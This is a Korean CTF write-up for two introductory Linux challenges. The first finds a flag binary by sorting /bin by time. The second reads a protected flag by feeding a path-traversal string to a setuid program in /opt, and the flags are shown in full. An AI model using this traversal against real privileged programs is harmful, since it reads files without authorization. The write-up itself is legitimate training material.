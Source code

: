 # Q1

### Keyword

- `ssh`, `binary file`, `디렉토리 구조`, `정렬`

### Solve

1. ssh 접속

```
$ ssh test1@ssh.knock-on.org

...

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

...

test1@5f882d6040af:~$
```

2. 힌트 확인 후 `/bin`와 같은 binary가 담기는 디렉토리에 flag가 있음을 예상

- `/bin` 뿐만아니라, `/sbin`, `/usr/bin`, `/usr/sbin`, `/usr/local/bin`, `/usr/local/sbin`, `/opt` 등등 바이너리는 다양한 디렉토리에 있을 수 있음
- 그러나 이 정보만으로 모든 바이너리를 찾기에는 시간이 많이 걸림

```
test1@5f882d6040af:/bin$ ls -al
total 22180
drwxr-xr-x 1 root root      4096 Feb 24 03:48  .
drwxr-xr-x 1 root root      4096 Feb 12 14:02  ..
-rwxr-xr-x 1 root root     51648 Jan  8 14:56 '['
-rwxr-xr-x 1 root root     14712 Feb 21  2022  addpart
-rwxr-xr-x 1 root root     18824 Oct  6 08:53  apt
-rwxr-xr-x 1 root root     84448 Oct  6 08:53  apt-cache
-rwxr-xr-x 1 root root     27104 Oct  6 08:53  apt-cdrom
-rwxr-xr-x 1 root root     27024 Oct  6 08:53  apt-config
-rwxr-xr-x 1 root root     51680 Oct  6 08:53  apt-get
-rwxr-xr-x 1 root root     28173 Oct  6 08:53  apt-key
-rwxr-xr-x 1 root root     51680 Oct  6 08:53  apt-mark

...

```

3. 검색 결과 정렬

- 출제자가 만든 binary는 최근에 만들어 졌음을 이용하여 시간별로 정렬하여 문제를 해결할 수 있음
- `ls -lt` 와 같이 시간 순으로 정렬을 하여 해결

```
test1@5f882d6040af:/bin$ ls -lt
total 22164
-rwxr-xr-x 1 root root     15968 Feb 24 03:47  echoflag
-rwxr-xr-x 1 root root       320 Feb 12 14:06  man
lrwxrwxrwx 1 root root        23 Feb 12 14:03  pager -> /etc/alternatives/pager

...

```

- 또는 `flag`, `test` 등등 유츄할 수 있는 키워드를 탐색하여 해결할 수 있음

```
test1@5f882d6040af:/bin$ find . -name "*flag*"
./echoflag
```

4. 찾은 binary를 실행하여 `flag`를 획득할 수 있음

```
test1@5f882d6040af:/bin$ ./echoflag
Wow you find it! the flag is KNOCKON{y0u_und3rst4nd_ab0ut_/b1n}
```



# Q2

### Keyword

- `ssh`, `setuid`, `find`, `상대경로`

### Solve

1. ssh 접속

```
$ ssh test2@ssh.knock-on.org

...

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

...

test2@4f882e6020ad:~$
```

2. find로 "Reader"라는 문자열이 들어간 프로그램을 탐색

- `/` : 가장 상위 디렉토리 기준 하위 디렉토리로 재귀적으로 탐색
- `-type f` : 파일만 탐색
- `-name "*Reader*"` : 정규표현식을 통해 이름에 `Redear`가 들어간 파일 탐색
- `2>/dev/null` : 불필요한 오류 무시

```
$ find / -type f -name "*Reader*" 2>/dev/null
/opt/fairyReaderV2
```

3. 해당 프로그램이 `setuid` 비트가 들어감을 확인

- `setuid`란 간단히 설명하면 해당 프로그램 실행 시에만 임시적으로 root 권한을 얻을 수 있게 하는 장치임
- 아래의 `ls` 결과로 `x` 대신에 `s` 가 들어간 모습을 통해 `setuid`가 설정됨을 알 수 있음

```
test2@e3a6f21df709:$ ls -l /opt/fairyReaderV2
-rwsrwsr-x 1 root root 16344 Feb 24 08:15 fairyReaderV2
```

4. 프로그램의 동작 방식을 관찰 및 분석하여, 상대 경로를 이용해 홈디렉토리에 있는 `flag`를 읽으면 됨

```
test2@56a6b5a7c6fc:~$ /opt/fairyReaderV2
I'll tell you a dreamlike fairy tale :)
Let me know which Episode you'd like to hear!

Input Episode number (1~10) : 1
Once upon a time, in a small town nestled between rolling hills and sparkling rivers, lived a cat named Whiskers. Whiskers was not your ordinary cat. He had a peculiar habit of walking backwards. It was a sight that amused many but bewildered even more.
Book is in here! -> /opt/data/story1/FLAG

Input Episode number (1~10) : dum
No book in here! -> /opt/data/storydum/FLAG

Input Episode number (1~10) : 1/../../../../home/test2
KNOCKON{f41ry_t4l3_1s_s000000_b0r1ng!!}
Book is in here! -> /opt/data/story1/../../../../home/test2/FLAG

Input Episode number (1~10) :
```